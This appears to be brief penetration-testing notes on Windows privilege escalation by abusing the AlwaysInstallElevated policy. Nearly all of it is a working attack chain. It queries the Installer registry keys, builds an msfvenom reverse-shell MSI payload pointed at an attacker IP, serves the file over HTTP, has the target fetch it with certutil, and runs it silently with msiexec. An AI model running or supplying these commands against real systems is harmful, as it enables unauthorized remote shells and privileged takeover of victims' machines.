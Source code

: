 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
REG QUERY HKCU\Software\Policies\Microsoft\Windows\Installer
REG QUERY HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.121.131 lport=4443 -f msi -o aie_payload.msi

sudo python3 -m http.server 80 (urlcache is using port 80)

Let the target download the payload:
 - certutil -urlcache -f http://192.168.121.131/aie_payload.msi aie_payload.msi

Run the command below to execute the msi file:
 - msiexec  /quiet /qn  /i aie_payload.msi

go back to listening terminal